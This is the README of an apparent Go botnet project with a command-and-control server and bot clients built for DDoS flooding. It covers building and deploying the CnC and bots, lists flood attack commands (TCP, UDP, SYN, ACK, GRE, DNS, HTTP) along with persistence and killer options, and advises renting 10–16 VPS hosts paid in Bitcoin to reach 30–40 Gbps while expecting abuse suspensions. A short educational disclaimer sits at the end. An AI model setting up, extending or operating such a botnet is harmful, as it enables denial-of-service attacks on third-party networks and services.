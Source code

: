 # Golang Botnet focused on basic network stressing 

V4 Soon, V4 NOW it in Development as we speak, This will combind both Gostress-V2 + BotnetGo Project together hopefully making one big C2 Framework with a REST API on web dashboard + terminal supporting openssl TLS 1.3 Enfored + Trusted.

>
> 2025-04-N/A
>
>https://github.com/1Birdo/GoStress

> 2024-09-20
>
> Last Botnet Source Release, trying to do more alternative and better projects.


## Overview
This project implements a simple Botnet Control and Command (CnC) server in Go, enabling users to manage connected bots and execute various network attack commands.

## Features
- **User Authentication**: Secure login and credential management.
- **Bot Management**: Connect and manage multiple bots.
- **Attack Execution**: Send commands to bots for executing different types of network attacks.
- **Logging**: Track bot connections and actions.

## Prerequisites
- Go 1.18 or higher
- Terminal/command line interface
- Basic understanding of Go and network programming

**![image1](https://github.com/user-attachments/assets/812f9717-c037-4399-ba57-e9bf4f610326)**


## Installation
1. **Clone the repository**:
   ```bash
   git clone https://github.com/Birdo1221/BotnetGo.git
   cd BotnetGo/cnc
   ```
2. **Install dependencies**:
   ```bash
   go mod init cnc
   go mod tidy
   ```
3. **Build the project**:
   ```bash
   go build -o cnc *.go
   ```
4. **Run the server**:
   If the any of the ports are defined below 1024,
   you will need to run with sudo privilages to bind to that port.
   I would also recommend running using ```screen``` to run with it so it
   doesnt get killed for idle memory usage or kill the process after you close the program
    ```bash
   ./cnc
    
   sudo apt install screen 
   screen ./cnc 
   ```
   
6. **Running the Device / Bot files**:
   You bascially want to enter into the ```bash Devices``` Directory
   and do the exact same you did in the CNC directory
   ```bash
   cd ../device
   ```
   Then to build just run the build.sh script to make all the different arch types,
   but if you just want to build it for standard x86 or just without defining anything just run

    ```bash
    sh build.sh
   ```
    For without defining
    ```bash
     go build -o Botfile bot.go
   ```

## Configuration
Edit the constants in `main.go` to configure:
- **User and Bot Server IPs**: Adjust `USER_SERVER_IP` and `BOT_SERVER_IP`.
- **Server Ports**: Modify `USER_SERVER_PORT` and `BOT_SERVER_PORT`.
- **Killer**: Modify `killerEnabled` to `true` if you want to run on runtime and not when commanded to.

**![image](https://github.com/user-attachments/assets/d5886f8c-1ac4-485d-b88c-b63a0acd51ff)**


## Usage
- Start the server and connect your bots.
- Use the CLI to log in and execute commands.
  ### e.g. Termum, Mobaxterm or Putty
- Attacks command to start an attack:
  ```bash
  !tcpflood <target_ip> <target_port> <duration>
  !udpflood <target_ip> <target_port> <duration>
  !udpsmart <target_ip> <target_port> <duration>
  !syn <target_ip> <target_port> <duration>
  !ack <target_ip> <target_port> <duration>
  !gre <target_ip> <duration> // you will need to send a port anyway
  !dns <target_ip> <target_port> <duration>
  !http <target_ip> <target_port> <duration> // still in the works
  ```
- Alternative command to send:
  ```bash
  !kill
  !lock
  !persist
  ```


  ## Logging in 
1. **How to Login**:
   On Line 290 there is a string that is prompted to be called for before being able to login to it
   e.g. loginforme


2. **Users **:

   After that, you will be prompted to enter a username and password.
   If you don't remember them, you can check the users.json file,
   which contains the login information and more.  

4.  **Future Development/ Power problem **:
 ```
   When searching for a reliable source, one of the most significant concerns is the power it can deliver.
   Many users face challenges when a single source does not meet their expectations,
   they often switch to a differnt source or just abandon their search altogether.

   This source is designed to provide the expected performance. To start fully utilizing this source you
   will need around 10 to 16 servers, each equipped with 1 core and 1 GB 
   of RAM, and an output capacity of 1 Gbps, you can achieve approximately 30 to 40 Gbps for UDP traffic.

   I'd recommend using rental hosts for this purpose, as it allows you to create multiple server instances without
   having to pay an entire upfront cost of buying several servers. On average, with a Command and Control (CNC) server
   to test this would cost around 20 GBP (British Pounds) in Bitcoin.

   You can obtain affordable servers by using a rental VPS service or a budget host.
   However, be aware that VPS providers like OVH, Vultr, or Linode may terminate or suspend
   your VPS due to bandwidth or flooding abuse.
  ```
Performance may vary based on several factors, including:
 ```bash
   *.Packet size
   *.Server output
   *.RTT based on geolocation
   ```
For TCP methods, similar performance can be expected for each methods, typically ranging from 20 to 28 Gbps, though this is also influenced by various conditions.
   
## Disclaimer

#  ```This project is for educational purposes only. Ensure you have permission before testing any network security tools on remote servers. I bear no responsibility or obligation to anyone using this for malicious purposes. ```

DDoS attacks are a serious crime that disrupt critical infrastructure, causing significant damage. Initiatives like Operation PowerOFF and Operation Endgame have highlighted the growing threat, targeting cybercriminals behind DDoS-for-hire services. These operations emphasize that DDoS is no longer just a nuisance but a severe offense with real-world consequences, and those involved face legal repercussions.

## License
This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
